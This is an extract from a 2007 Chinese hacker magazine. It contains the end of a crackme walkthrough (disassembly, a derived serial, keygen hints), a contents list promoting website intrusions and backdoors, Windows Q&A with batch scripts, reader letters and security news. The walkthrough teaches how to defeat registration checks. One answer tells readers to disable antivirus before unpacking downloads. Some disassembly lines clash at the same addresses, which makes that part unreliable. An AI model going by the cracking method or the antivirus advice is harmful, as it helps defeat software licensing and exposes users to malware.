004012FD  8A1401         MOV AL, BYTE PTR DS:[ECX+EAX]
00401300  80FA 39        CMP DL, 39
00401303  76 05          JBE SHORT CrackMe_.0040130A
00401305  80FA 41        CMP DL, 41
00401308  72 0A          JB SHORT CrackMe_.00401314
0040130A  80FA 30        CMP DL, 30
0040130D  72 05          JB SHORT CrackMe_.00401314
0040130F  80FA 46        CMP DL, 46
00401312  77 05          JA SHORT CrackMe_.00401319
00401314  E8 89FEFFFF    CALL CrackMe_.004011A2
00401319  41             INC ECX
0040131A  83F9 08        CMP ECX, 8
0040131D  72 DF          JB SHORT CrackMe_.004012FA
0040131F  E9 E1000000    JMP CrackMe_.00401405
004012E4  41             INC ECX
004012E5  46             INC ESI
004012E6  83F9 08        CMP ECX, 8
004012E9  75 DE          JNZ SHORT CrackMe_.004012A9
004012EB  33C9           XOR ECX, ECX
004012ED  33DB           XOR EBX, EBX
004012EF  8B06           MOV EAX, DWORD PTR DS:[ESI]
004012F1  8D75 E0        LEA ESI, DWORD PTR SS:[EBP-20]
004012F4  C1E3 04        SHL EBX, 4
004012F7  8A1401         MOV AL, BYTE PTR DS:[ECX+EAX]
004012FA  8816           MOV BYTE PTR DS:[ESI], AL
004012FC  8810           MOV BYTE PTR DS:[EAX], DL
004012FE  80FA 41        CMP DL, 41
00401301  72 0A          JB SHORT CrackMe_.0040130D
00401303  80FA 46        CMP DL, 46
00401306  77 05          JA SHORT CrackMe_.0040130D
00401308  80C2 37        ADD DL, 37
0040130B  EB 03          JMP SHORT CrackMe_.00401310
0040130D  80EA 30        SUB DL, 30
00401310  80E2 0F        AND DL, 0F
00401313  0ADA           OR BL, DL
00401315  46             INC ESI
00401316  41             INC ECX
00401317  83F9 08        CMP ECX, 8
0040131A  895D F8        MOV DWORD PTR SS:[EBP-8], EBX
0040131D  72 D5          JB SHORT CrackMe_.004012F4
0040131F  E8 C4FDFFFF    CALL CrackMe_.004010EE
00401324  8D5D EA        LEA EBX, DWORD PTR SS:[EBP-16]
00401327  E8 ABFDFFFF    CALL CrackMe_.0040103A
0040132C  3945 F8        CMP DWORD PTR SS:[EBP-8], EAX
0040132F  0F85 9B000000  JNZ CrackMe_.004013D0


```

# 图 7 第四处验证代码

0068224C 左移 8 位等于 68224C00，因为右移的时候可能有余数忽略了。所以

68224C00 xor 00FFFFFF = 68DDB3FF，后面两位 ff 可能是错的。现在只需要查找表一里面是否有 68DDB3 即可。经查找后找到是 68DDB3F8，再 xor 回去可以得到 AL=07。

因此这次大功告成。联立方程如下：

- 设第 9 个字符 16 进制为 x，第 18 个字符 16 进制为 y
- (x xor 0ff)+1=d3
- (y xor 07)+1=2b

这样就可求出 x=2d，y=2d，转换后得到第 9 个字符和第 18 个字符均为 “-” 字符。

接下来继续跟着第 3 个验证。如图 6。

这个验证是取密码前 8 位，前八位必须要在字符 0-9 或者 A-F 之间，并且把字符的 16 进制转换成字符，然后把用户名的名字放入 ebx 里，调用 call 004013a0 得出一个数跟前八位比较看是否相等。相等的话则通过验证。这个就简单多了，因为这次 EBX 里的数是已知的，就是我输入的用户名。这个让程序自己来演算，最后用户名是

再看最后一个验证，如图 8。

这个也很简单。把中间 8 位当成 EBX 做运算，算出一个值存到 ebp-8 里。这里是 a4e4e879，然后 [ebp-8] xor 前八位就等于最后八位 = 9372791F，到现在为止，就得到了密码，如图 9。

用户名：kyo327  
密码：37969166-E09C3708-9372791F

点注册后可以看到，check 变灰了，而标题那里也显示了 GOOD JOB, MAN! 说明已经注册成功了。

算法就分析到这，文中两个程序已打包放入光盘。写注册机的话也很简单，只要写的时候先确定一下第 9 位和第 18 位是 “-”，并且密码字符个数为 26。然后调用 call 004013a0 里面的代码，写起来应该很轻松的，我就不写了，留给大家来玩吧。不过如果不确定前面我说的两个限制去写注册机，我认为应该非常困难，最起码我是没能力写出来。我感觉像是用笨的办法来找的。另外这个算法我觉得写得非常好，分析它我星期六晚上没睡觉，一直搞到半夜 3 点钟，把我累坏了。反而用那些经典的加密算法我觉得会简单点的，至少我不用去 F7 进去，然后看结果再和那些密码工具算出来的值比较一下就 OK 了。如果这个程序中 EBX 里的值是未知数的个数大于 3 个，我想难度会大很多，我是不能保证还是能跟出注册码的。如果各位读者知道跟那两个 call 的简单的思路不妨告诉我，我感激不尽。

【本文介绍的目标程序、相关工具和作者编写的注册机已收录在本期光盘中】

> 编辑点评：非常不错的一篇经典算法文章，如果你想进入算法的大门，那么就从这篇算法开始吧！虽然看上去有点难懂，但是经过这么一次后，相信你的基础会有一个大的进步！除了作者所提到的搜索字符串外，还可以下断点：bp GetDlgItemTextA，快速找到关键点。
# 黑客手册

黑客系漫游指南 · 投稿Mail: nohack@21cn.com · WWW.NOHACK.CN · 原生态黑客，自由独行的边缘文化

【本手册仅随CD一同赠送，不得单独销售】

# 网络焦点 2007.06
NO 10.8 非安全

## 「六·一儿童辑：」专题
揭开数据恢复的神秘面纱

数据恢复有技巧，最好顾虑与难局，恢复之前平心态，恢复之时需记牢，备份恢复Ghost，操作简单又可靠，不过使用需注意，坏道千万不能格，分区丢失不用愁，PQ足够供需求，要求效率又雅观，DiskGenius带您去参观，BPB丢了没什么，NDD修复来帮忙，数据恢复好帮手，修复引导就完了。

# 断头台
未满十八禁读

这是一篇取材于第三次欠款，我的故事。我，有些颓废和狂放不羁，拒绝过国内著名的XX医科大学，木刀成为了我的武器之一，虽然这把双刃剑正在我的心中悄悄扫描。我总觉得那些盲目崇拜所谓“黑客”的人很可笑，因为“黑客”技术仅仅只是一个工具，如同手术刀一样，但是这些“醉性感的玩儿”我却上了瘾。

## 反黑战线——谁在控制我的电脑

小美是我公司新来的员工，由于业务能力强，逐渐变得漂亮，因此受到上层领导的喜爱。一个多月后，她成为了老板的秘书，她手上有着各个部门的核心资料，但最近一段时间有过两次资料泄漏的事件发生，BOSS的怒火转向了小美，小美向同事哭诉自己的冤屈，许多同事都只是言语上的安慰，这时，我站了出来，于是有了这次的反黑经历。

## 采访 校园盟校长 — Redbin

他在2001年接触网络，在2004年和朋友创办校园黑客联盟，经过不懈的努力，让校园成为黑客圈里的一个知名站点。他对于黑客技术的热爱和崇尚共享的精神，影响着校园黑客联盟这个团队。

### 清华 著名 未眠夜

自上次我畅游了排名靠前的几所名牌大学后，在我的心里留下了些许遗憾，那就是中国排名前面的龙头老大——清华大学没有进去过，所以在那以后的日子里总想到这个全国最牛的高校去瞧瞧，再续我与中国名校的不解之缘。

# 对 Sina 分站的一次渗透

无意间发现 sina 的 xx 调查投票页面存在注射点，跑了一下，结果为 MSSQL，显错模式和 DB_OWNER 权限，不过无法列目录，漫长的过程，结果是：登录 3389，拍照留念。

渗透飞思科技——飞而信息港整站程序漏洞利用 / 弹指之间 十万肉鸡上线 / phpwind、discuz 的跨站之旅 / 黑精英之熊猫烧香不死之迷 / Linux 系统后门技术（隐藏帐户篇） / 注射入侵全攻略 / 加固肉鸡，你用了吗？

## 光盘推荐

- 动画教程
- 抓图推荐黑客手册06期
- 77号脚本编辑器
- 天地剑客网页
- 仿回教复仇
- 狂刷小傻全攻略
- 杭州由衷 shell
- 杀毒杀毒就是
- seamaster 原创漏洞利用
- amalscom live 使用
- 【成长之路】
- HELLSING OVA 第1部精彩视频
- 【黑客音乐】
- 黑客乐园
- 【音乐天堂】
- 《蝴蝶案》原声音乐特辑
- 【花样玩玩】
- 吕洞宾——角度与力度的把握

- QQ空间不为人知的秘密
- QQ挂机任你受
- 蓝鸟的扫描入侵
- 利用 edsky 的漏洞发送匿名邮件
- 威力攻击北京电台漏洞分析
- 利用 Gene6 FTP Server 提权
- 入侵检测产生背景
- 突破数据库防火墙全攻略 webshell
- OR，让注入更疯狂！
- 破解万象2004网管系统的几种方法
- 编写自己的过卡下载器
- 一个由数学算法的 crackme 的分析
- 挑战经典的 ASCII 字符画

**Q:** 我是 home 的 xp，不过没有组策略，不知道有办法搞定不？

**A:** 虽然 home 版中没有，但是我们可以从专业版中移植过来，具体步骤如下：

- 1、将 XP 专业版“C:\WINDOWS\system32”文件夹中的 gpedit.msc、fde.dll、gpedit.dll、gptext.dll、wsecedit.dll 文件复制到 HOME 版的“C:\WINDOWS\system32”文件夹中。
- 2、点击“开始”—“运行”，依次运行以下命令：“regsvr32 fde.dll”、“regsvr32 gpedit.dll”、“regsvr32 gptext.dll”、“regsvr32 wsecedit.dll”，分别注册这 4 个文件。
- 3、将 XP 专业版“C:\WINDOWS\INF”文件夹中的所有 *.adm 文件复制替换到 HOME 版的“C:\WINDOWS\INF”文件夹中。
- 4、最后单击“开始”—“运行”，输入“gpedit.msc”便可以启动组策略了。

为了方便和简洁，我已经做好了批处理，请大家到“http://dx.3800hk.com/Soft/zhly/16327.html”下载，运行文件中的“gpedit.bat”即可。

**Q:** 我键盘上的某一个按键坏了，不知道是否能用软件替换的办法来解决？

**A:** 有这样的软件，推荐一个给你，RemapKey（下载地址：http://download.pchome.net/system/inputdev/18939.html）。打开软件后，上面显示的是原始按键位置，下面显示的是替换后的按键位置。用户只需要鼠标左键按住要更改的键不放，将其拖入下面要代替的位置即可。不过需要重启电脑之后才能生效。

**Q:** 经常在网上下载一些压缩文件时却提示“无法解压，压缩文件已损坏”，不知道如何解决？

**A:** 压缩文件的损坏也是分几种的，有时候是下载工具损坏，也有时候是打包时出现错误。大家可以试试下面的几种方法：

- 1、使用修复软件 ZipRecovery（下载地址：http://www.skycn.com/soft/7440.html），安装好之后，点击“File”—“Recover”，找到需要修复的文件，然后点击“Recover”即可。
- 2、有时候使用网际快车下载会使文件损坏，打开网际快车，然后找到已下载的文件，在文件上按鼠标右键即可出现“修复 zip 文档”选项。
- 3、还有一个原因，那就是因为你开着杀毒软件。要是你下载的软件带有病毒，解压时杀毒软件会把软件进行删除，所以提示无法解压。建议你暂时关闭杀毒软件，然后再解压一次。

**Q:** 删除多个文件和文件夹的批处理怎么做？

**A:** 删除多个文件的话可以使用通用字符“*”，例如我们想删除 d 盘“nohack”目录下的所有“文本文档”，可以写这样的批处理：“del d:\nohack\*.txt”，然后保存为后缀名为 .bat 的文件，如“new.bat”，双击运行即可删除成功。要是想删除“nohack”文件夹的话，首先必须把里面的文件清空，然后使用“rd d:\nohack”即可删除，要是文件夹不是空的，那么将不能删除。下面的一个例子大家可以借鉴一下：

```batch
@echo off
del d:\nohack\*.txt
rd d:\nohack
```

```batch
echo 文件删除完成!
pause
```

**Q:** 我这里有两台网，主要针对通宵断网。不过每次都要修改 IP，设置很麻烦，有没有软件能帮我解决啊？

**A:** 网络的发展主要就是对本地连接的修改，我们可以使用一些软件来实现，这里推荐一个“IP 地址切换器”（下载地址：http://www.fav.com.cn/soft/ipcfg.rar）。当然我们也可以使用批处理来解决，下面就是一个例子：

```batch
@echo off
rem eth //eth 为网卡名称，可在网络连接中查询，如“本地连接”
set eth="本地连接"
rem ip //ip 为你想更改的IP
set ip=192.168.0.5
rem gateway //gateway 为网关地址
set gateway=192.168.0.1
rem netmasks //netmasks 为子网掩码
set netmasks=255.255.255.0
rem dns //dns 为首选DNS
set dns=202.103.44.5
rem dns2 //dns2 为备用DNS
set dns2=202.103.0.68
echo 正在将本机IP更改到: %ip% 请等候...
rem
if %gateway%==none netsh interface ip set address %eth% static %ip% %netmasks% %gateway% > nul
if not %gateway%==none netsh interface ip set address %eth% static %ip% %netmasks% %gateway% 1 > nul
if %dns%==none netsh interface ip set dns %eth% static %dns% > nul
if not %dns%==none netsh interface ip set dns %eth% static %dns% > nul
if %dns2%==none netsh interface ip add dns %eth% %dns2% > nul
if not %dns2%==none netsh interface ip add dns %eth% %dns2% 2 > nul
echo........................
echo 检查当前本机IP:
ipconfig
echo........................
echo 成功将本机IP更改为: %ip%
echo by:pop
echo 黑客手册
echo http://www.nohack.cn
pause
close


```

**Q:** 最近 Windows2003 sp2 出来了，不过没有集成的安装程序，我想知道能自己集成一下吗？

**A:** 我只知道下面的这种方法，不过注意 sp2 补丁一定要和安装光盘的设置语言一样。下面是具体操作：

- 1、从微软官方网站下载 WIN2003 的 SP2 补丁，保存到系统盘以外的其他分区盘中（比如 d 盘），然后重新命名为“WIN2K3SP2.EXE”（可以不用重新命名，这里我是为了方便以下的说明才改的文件名）。
- 2、用虚拟光驱加载 WIN2003 的光盘镜像 iso 文件，将所有安装程序拷贝到你的硬盘上，如：e:\WIN2K3 这个目录里。
- 3、点击“开始”—“运行”，输入“D:\WIN2K3SP2.EXE -integrate:e:\WIN2K3”，然后回车就可以集成了。

**Q:** 系统好长时间没有打补丁了，出于安全考虑还是得打一下，谁知道哪里有下的呀？

**A:** 我们打补丁基本上可以通过两种方式来进行，第一种就是自动，第二种自然就是自己动手啦！

- 1、自动打补丁：打开“我的电脑”—“属性”，然后找到“自动更新”标签，在这里根据自己的要求选择即可。
- 2、手动打补丁：可以一次性下载所有的补丁，然后安装即可，这里有个地址，“http://www.crsky.com/soft/6664.html”，里面就是全部的补丁。另外，我们还可以使用像 360 安全卫士的“修复补丁”以及 QQ 的“QQ 医生”来完成。

**Q: 不知道能不能在时间上面显示星期?**
**A:** 显示星期的话还是需要到时间里面设置，具体步骤如下：

- 1、点击“开始”—“设置”—“控制面板”，找到并双击“区域与语言选项”图标；
- 2、然后，在弹出的设置窗口中点击“区域选项”—“自定义”按钮；
- 3、接着，点击“自定义区域选项”窗口中的“日期”，在最下面的“长日期格式”后面加上“dddd”，整个格式例如“yyyy’年’M’月’d’日’ dddd”；
- 4、最后，点击“确定”按钮退回到控制面板。此时再将光标悬停到时钟上时你便会发现，此时的系统时钟已经可以提示当天的星期了。

还有一种方法就是修改注册表了：

点击“开始”—“运行”，输入“regedit”，依次展开键值“HKEY_CURRENT_USER\Control Panel\International”，把里面的“sLongDate”的值修改成“yyyy’年’M’月’d’日’ dddd”即可。

**Q: 刚安装了系统，不过很多媒体文件都没有关联，不知道怎么才能快速地设置?**
**A:** 首先我们可以使用系统自带的“Windows Media Player”来设置，进入“C:\Program Files\Windows Media Player”后打开“wmplayer.exe”，然后选择“工具”—“选项”，找到“文件类型”。在这里可以根据自己的需要进行选择，最后“应用”即可。还有一种方法就是打开“我的电脑”—“工具”—“文件夹选项”，找到“文件类型”，在这里修改关联。不过这里修改很麻烦，要是你修改其他的一些文件的话，可以尝试一下。

同样我们还可以借助软件来完成，比如修改媒体文件，我们可以安装“暴风影音”（下载地址：http://baofeng.com）。安装好之后，在文件目录下找到“StormSet.exe”便可以设置了。其他类型的文件一般也是有相关的设置工具，大家动手找一下吧。

**Q: NOD32 提示“与 NOD32 核心服务器沟通时发生错误”，请问如何才能解决?**
**A:** “与 NOD32 核心服务器沟通时发生错误”可能是以下原因造成：

1、安装的时候有冲突；2、有其他的杀软残留；3、一些流氓软件的问题；4、补丁的问题，可以尝试停止“WebClient”服务。

详细的步骤如下：

右击“我的电脑”，选择“管理”。在“计算机管理”的窗口，打开“服务及应用程序”的树状目录，选择“服务”，寻找“WebClient”。右击它，选择“属性”，在“常规”页将启动类型由“自动”改为“手动”，然后重启你的电脑。

更多的关于 nod32 的问题解答，请访问：http://429006.com/blog/article.asp?id=425

**Q: 安装了 Windows2003 sp2 却不能使用 QQ 了，每次一打开就定住了，只有按电源。**
**A:** 主要就是一个安全控件的问题，删除便可以了，具体如下（注意，删除文件前请先把 QQ 关闭）：

1、在“我的电脑”上点右键，选“管理”->“设备管理器”。
2、选择“查看”/“显示隐藏的设备”，在“非即插即用驱动程序”中选择“npkcrypt”，卸载之。
3、运行“regedit”，可能存在键项：“HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\npkcrypt”或“HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Services\npkcrypt”等，删除之。
4、如果 QQ 目录存在 npkcrypt.sys、npkcrypt.vxd、npkcusb.sys 这三个文件，删除之。
5、下次启动后即可生效。

由于键盘加密控件相关文件已被删除，因此 QQ 会检测到键盘加密控件被破坏，从而登录界面上有相应的提示，这并非木马所致。请你按照提示，使用软键盘输入登录即可。

建议你使用最新版的 QQ（下载地址：http://im.qq.com/qq/dlqq.shtml），里面有选择是否安装安全控件，要是在 2003 sp2 下就不要安装了。

**Q: 这几天发现电脑无法识别 USB 移动硬盘，于是想进磁盘管理给硬盘分配个盘符，没有想到就出现“无法连接到逻辑磁盘管理器服务”，不知道如何是好?**
**A:** 首先我们可以看一下系统事件，应该可以发现类似：“Logical Disk Manager 服务因下列错误而停止，找不到指定的模块”还有“与 Logical Disk Manager Administrative Service 服务相依的 Logical Disk Manager 服务因下列错误而无法启动，找不到指定的模块”的提示，因为服务被禁止了。

解决办法：右键“我的电脑”，选择“管理”，然后打开“服务”，把“Logical Disk Manager”和“Logical Disk Manager Administrative Service”这两个服务启动就可以了。
# 小黑·感悟

城市 / 湖北咸宁  
论坛 ID / 无  
邮件 / yuntianxin@163.com  
→对某篇文章的读后感：  
文章名称：空间密码不再止步，密码奈我何！  
读后感：这篇文章对于我来说是有很大的启示的，因为它让我明白了一个道理，那就是：任何东西都不是一成不变的，任何软件都是有方法破解的！

城市 / 沈阳  
论坛 ID / www.yeskee.com/chuxiaolong  
邮件 / longlong4210@qq.com  
→对某篇文章的读后感：  
文章名称：菜鸟也能入侵网站  
读后感：通过这篇文章，使我不仅得到了技术上的帮助，还使我学到了做人的真谛。做事要有一种坚忍的精神，不能半途而废。

城市 / 任秋  
论坛 ID / lcescan  
邮件 / lcescan@163.com  
→对某篇文章的读后感：  
文章名称：老美的黑客在干吗？  
读后感：原来一个真正的黑客是要具备聪明的才智、仁德的性格、超高的智商、不折不挠的精神……这使我更加坚定了我的理想——成为一名真正的黑客。

激流勇退的黑编：这三位读者从《黑手》中渐渐领悟到知识与精神，黑客的最高境界离你们就不远了！那就是——你不再是黑客！黑桶洗脚后才发现，前仆后继的鸟鸟们真的是很多，许多都是抱着对黑客的神秘而进入这个领域。很欣慰一直有大家保持着“原生态黑客精神”，对后来者都强调着黑客应该去做的事，避免了黑客的没落，推进了技术攻防的发展。

城市 / 江苏淮安  
论坛 ID / zhengwei  
邮件 / zhengwei804@yahoo.com.cn  
→有什么建议和意见  
对电脑有爱好的人，有谁对黑客没有向往，但又有几个能被老大们收归门下，教其本领的？希望大家能教教我们一些基本技巧！

曾经找师傅的编辑：找个师傅很难，《黑手》是个指南！每期的文章从初级到高级，几乎囊括了方方面面，更有不时推出的新书作为辅助指导。你想学习什么？快快告诉我们吧！

# 杂志·新书

城市 / 沧州河北  
论坛 ID / 孤单也是享受  
邮件 / lmy-007@sohu.com  
→对某篇文章的读后感：  
文章名称：深入网吧背后——谈破解真相  
读后感：我比较喜欢在网吧的机子上乱逛，并不玩游戏，只是了解系统和寻找破解方法（并不是想免费上网，只想掌握技术，呵呵）。通过读了这篇文章，再加上自己研究，更加了解了这个技巧，真的很感谢《黑客手册》与本文作者，谢谢！

网吧编辑：号外号外——2007 新书《网吧黑客》再度出击！！！网吧又将成为新的技术交流之处。与时俱进地学习技术，牵着《黑手》就能乘风破浪。自己家里没有电脑也能不断学习新知识，跟上技术潮流，充实自我！

城市 / 沈阳  
论坛 ID / qiao-daxiang  
邮件 / qiao-daxiang@126.com  
→对某篇文章的读后感：  
文章名称：(双周年专题) 安全检测：拉响国内排名前 10 名牌大学的网络警报  
读后感：无语……一个方法，十所大学，中国的几所顶尖大学都被轻易地攻陷，这难道是个偶然？我想不是。希望中国的网管人员的素质能够提高，为了中国的网络有一片宁静的空间，让我们共同努力！！

城市 / 山东淄博  
论坛 ID / 88438446  
邮件 / guyueaotian@163.com  
→对某篇文章的读后感：  
文章名称：(双周年专题) 安全检测：拉响国内排名前 10 名牌大学的网络警报  
读后感：看完后，简直不敢相信这是现实，全国几乎各大高校竟然可用同一个漏洞入侵成功，令人汗颜呀！但同时也对我这样的菜鸟增加了信心，不要认为网站有名气，就不会有漏洞，很可能会有低级的漏洞，只要耐住性子，认真地找，呵呵，相信总会发现一个的。

→有什么建议和意见  
本书分的栏目太多了，我个人认为其实很多栏目可以并在一起的。例如：快码加编与 Cracker 都是讲一些代码的利用，并在一起就可以啦！

双周年编辑：读后感有点编解点评的味道，呵呵……看来我们的读者也在不断地进步啊！两年了，感谢大家一直以来对《黑手》的支持，你们寄到的每一封来信我们都会拆阅并进行整理，继续期待着与大家一起迎来更多的周年庆典！

城市 / 湖南长沙  
论坛 ID / 黑坛新菜  
邮件 / givemegetout@163.com  
→对某篇文章的读后感：  
文章名称：菜鸟也来玩转炸弹攻击  
读后感：一个很有趣的技术，一看到标题就吸引了我。我对“炸弹”很感兴趣，因我曾无数次遭“炸弹”袭击，被“炸”得遍体是伤。看了这篇文章后才了解到“炸弹”是怎么一回事，并知道如何防御了，对我来说是个很大的进步。再一想到自己有机会拿“炸弹”去“炸”一“炸”别人，心里就一阵窃喜。可惜这篇文章美中不足的是实际操作过程太少了，对我一个新菜来说还难以接受……

皈依佛门的某编：善哉，善哉……炸来炸去会污染环境的……炸弹的使用也要因人因事而为，多多行善必有善果。来来来，施主与我畅谈一番，让贫僧与你分享《黑手》经验之谈……

# 写在前面

## 今年夏天特别热……

从暖冬开始，就预感今年的夏天很特别。果然一到 5 月中旬，热浪滚滚而来，万里晴空无云，阳光简直是毫无保留地就倾洒在任何它能够照耀到的角落。不仅人们在寻找阴暗处乘凉，就是花草树木都像被吸干了水分似的，没有一点生气。待在水里的鱼儿似乎都察觉到了水温的变化，四处游动，不断地探起鱼头，把嘴露出水面……

大家的夏日又怎么熬过啊？这种气候应该是黑客昼伏夜出最多的时候，因为白天太热，很影响逻辑推理。要让脑袋清醒下来，只有夜间才凉爽一些，更适合“行动”。不过夏天除了要面对高温，还得面对那个生物界的战斗机——蚊子！！！高温出现在白天，而蚊子则独霸夜间，如此交替折磨，真是考验我们的修行啊……

如何降温？如何避蚊？相信大家都会有自己的常用方式。无论方式怎样，关键在于执行后的效果。偶已经在冰箱里准备了批发回的一大包“黑客牛奶”雪糕，每次行动必先含在嘴里，然后大喊一声“NOFACK”（嘴里有东西，说不清楚啊……）。那薄薄的白色雪糕皮包着黑色的内心巧克力，还真是象征着甜甜苦苦的黑客岁月啊……

总之，希望大家在这个夏日，趁着这个机会好好进行一番苦行僧一般的修行，你将会感悟到很多的。另外，《黑客手册》又有新书面市，《精通脚本黑客》和《网吧黑客 2007》将是在夏日里给你惊喜的东西！眼镜猴于 2007 年 6 月夏日拔毛推荐！！！
## 新闻概要

六一啊，难道不放假？我们可是祖国的花朵啊……郁闷之极又遇到诺顿误杀，网上银行的作案手法又花样翻新！哎！好事坏事都少不了微软的捧场啊，7 款安全补丁！19 个安全漏洞！所有补丁软件的危险等级都被评为“危急”，涉及面包括 IE7、Office 2007、Exchange 2007 等……夏天都是爱冲动的，六月飞雪？听过！还真就没有见过……

## 诺顿误杀导致系统崩溃

许多朋友最近发现，在把诺顿杀毒软件升级病毒库后，会把 WinXP 系统的关键系统文件当作病毒进行隔离清除，重启后系统将会瘫痪。具体情况是：

安装了 MS06-070 补丁的 XP 系统，如果使用诺顿并升级到最新病毒库（5 月 18 日），则该软件会把系统文件 netapi32.dll、lsasrv.dll 误报为 Backdoor.Haxdoor 病毒，进行文件隔离，导致用户的电脑就会出现重启后蓝屏，安全模式下也无法进入等问题。由于该次误杀只发生在简体中文版的 XP 系统上，因此对国外用户几乎没有影响。

针对此问题，瑞星、江民和金山都提供了系统恢复办法。杀毒软件误报一些文件或者网页错误也会时常发生，但像诺顿这样误报中文 WinXP 系统文件并导致国内大量电脑用户系统瘫痪的事情还是很少见。

关于该安全事故的预防和解决方法，大家可以按照以下操作进行。

## 还没有受到误杀影响的用户：

- 1. 拔掉网线再开启计算机。
- 2. 启动计算机后，关闭诺顿杀毒软件的实时监控程序，再插入网线上网。
- 3. 等待赛门铁克公司解决该问题后，才可以继续启用诺顿实时监控程序。
- 4. 关闭杀毒软件实时监控程序可能导致计算机感染其它的病毒、木马及恶意程序，用户可以暂时选用其它的杀毒软件。

## 对于系统已经瘫痪的用户：

- 1. 使用 Windows 安装光盘启动系统，在提示菜单处按 R 进入恢复控制台。
- 2. 在提示中按“1”然后回车，选择需要修复的系统，并输入管理员密码。
- 3. 执行如下命令进行修复（X 表示光盘盘符）：

  Expand x:\i386\netapi32.dl_ c:\windows\system32\ [回车]  
  Expand x:\i386\netapi32.dl_ c:\windows\system32\dllcache\ [回车]  
  Expand x:\i386\lsasrv.dl_ c:\windows\system32\ [回车]  
  Expand x:\i386\lsasrv.dl_ c:\windows\system32\dllcache\ [回车]

- 4. 重新启动计算机，关闭诺顿的实时监控程序。
- 5. 启动诺顿的隔离区，恢复 netapi32.dll 和 lsasrv.dll。
- 6. 等待赛门铁克公司解决该问题后，才可以继续启用诺顿实时监控程序。
- 7. 关闭杀毒软件实时监控程序可能导致计算机感染其它的病毒、木马及恶意程序，用户可以暂时选用其它的杀毒软件。

小述点评：这的确是一个十分低级又很严重的错误，这一定程度上说明了国外杀毒软件厂商对国内市场的不重视。由于诺顿在企业级市场占有率在 30%左右，而其中的中文 WinXP 系统用户都将无法正常使用电脑，这样导致系统崩溃造成的影响和损失可想而知，将有可能导致用户的误工索赔。

## 网络上最常用的 10 个密码评出

password 居然高居首位。

据国外媒体报道，即将于下月出版的《PC Magazine》评出了网络上最常用的 10 个密码。有趣的是，“password”（密码）的使用频率最高，排名首位！

以下为《PC Magazine》评出的网络上最常用的 10 个密码排名：

- 1. password
- 2. 123456
- 3. qwerty（标准的传统键盘）
- 4. abc123
- 5. letmein
- 6. monkey
- 7. myspace1
- 8. password1
- 9. blink182
- 10. your first name（用户自己的名字）

小述点评：大家看看这 10 个常用密码中是否有你当初设置密码的影子？偶在本地利用动态 IP 测试动态网页程序时，最喜欢用的就是这个用户名和密码，怎么样，很强吧！（众编：“成吉思汗……”）

## 网上银行作案花样翻新

随着近期股市的活跃，一些犯罪嫌疑分子利用网上银行进行作案的花样和手段也不断翻新，他们可以控制客户电脑，将客户账户资金通过网上银行进行盗转。

为确保资金安全，相关银行技术人员建议：在使用网上银行的过程中，不能向任何人泄露登录密码和交易密码，并需要妥善保管好电子证书，保护好上网交易电脑。及时更新操作系统和防病毒软件，不要访问不良网站或下载不明软件，避免感染恶意获取客户资料的木马病毒。特别需要注意的是，不要在网吧等公共场所使用网上银行。

如果客户发现账户资金异常，可尽快联系相关银行并报警。这里给大家整理一下几种常见的利用网上银行的诈骗形式：

- 1、告知您的银行卡被异地盗用，需要签约网上银行，以设置网上报警系统；
- 2、告知您的账户涉嫌洗钱，需要签约网上银行，以进行反洗钱监控；
- 3、告知能为您办理银行无抵押、无担保或低息贷款的，需要签约网上银行进行验资；
- 4、与他人做生意，需要您预存保证金，并签约网上银行进行验资；
- 5、通过地下钱庄发放高息贷款等利润丰厚的投资项目，正在筹集资金阶段，需要您存入资金，签约网上银行，以便办理网上验资。

小述点评：银行搭上了互联网的方便快捷，也就意味着会同时负担它所遇到的网络安全问题。不法分子盯上网上银行，那可是高智商犯罪，社会工程学的实践之地……

# 漏洞公告牌

## MS07-029: Windows DNS RPC 接口远程执行代码漏洞

漏洞的影响：远程执行代码 最高严重等级：严重

受影响的软件：

- Microsoft Windows 2000 Server Service Pack 4
- Microsoft Windows Server 2003 Service Pack 1 和 Microsoft Windows Server 2003 Service Pack 2
- Microsoft Windows Server 2003 SP1（用于基于 Itanium 的系统）和 Microsoft Windows Server 2003 SP2（用于基于 Itanium 的系统）
- Microsoft Windows Server 2003 x64 Edition Service Pack 1 和 Microsoft Windows Server 2003 x64 Edition Service Pack 2

微软的安全公告：  
http://www.microsoft.com/china/technet/security/bulletin/MS07-029.mspx

说明：成功利用此漏洞的攻击者可以完全控制受影响的系统，他们可随意安装程序，查看、更改或删除数据；或者创建拥有完全用户权限的新账户。

## MS07-027: Internet Explorer 本月累积性安全更新

漏洞的影响：远程执行代码 最高严重等级：严重

受影响的软件：

- Microsoft Windows 2000 Server Service Pack 4
- Microsoft Windows XP Service Pack 2
- Microsoft Windows XP Professional x64 Edition 和 Windows XP Professional x64 Edition Service Pack 2
- Microsoft Windows Server 2003 Service Pack 1 和 Microsoft Windows Server 2003 Service Pack 2
- Microsoft Windows Server 2003 SP1（用于基于 Itanium 的系统）以及 Microsoft Windows Server 2003 SP2（用于基于 Itanium 的系统）
- Microsoft Windows Server 2003 x64 Edition Service Pack 1 和 Microsoft Windows Server 2003 x64 Edition Service Pack 2
- Windows Vista
- Windows Vista x64 Edition

微软的安全公告：  
http://www.microsoft.com/china/technet/security/bulletin/MS07-027.mspx

说明：如果用户使用管理用户权限登录，成功利用最严重的漏洞的攻击者便可完全控制受影响的系统。攻击者可随意安装程序；查看、更改或删除数据；并创建权限与已登录用户相同的新帐户。那些帐户被配置为拥有较少系统用户权限的用户，比具有管理用户权限的用户受到的影响要小。

## MS07-025: Microsoft Office 中远程执行代码漏洞

漏洞的影响：远程执行代码 最高严重等级：严重

受影响的软件：

- Microsoft Office 2000 Service Pack 3
- Microsoft Excel 2000
- Microsoft FrontPage 2000
- Microsoft Publisher 2000
- Microsoft Office XP Service Pack 3
- Microsoft Excel 2002
- Microsoft FrontPage 2002
- Microsoft Publisher 2002
- Microsoft Office 2003 Service Pack 2
- Microsoft Excel 2003
- Microsoft FrontPage 2003
- Microsoft Publisher 2003
- Microsoft Excel 2003 Viewer
- 2007 Microsoft Office System
- Microsoft Office Excel 2007
- Microsoft Office Publisher 2007
- Microsoft Office SharePoint Designer 2007
- Microsoft Expression Web
- Microsoft Office 2004 for Mac

微软的安全公告：  
http://www.microsoft.com/china/technet/security/bulletin/MS07-025.mspx

说明：成功利用此漏洞的攻击者可以完全控制受影响的系统，并随意安装程序；查看、更改或删除数据；或者创建拥有完全用户权限的新帐户。

## MS07-024: Microsoft Word 允许远程执行代码漏洞

漏洞的影响：远程执行代码 最高严重等级：严重

受影响的软件：

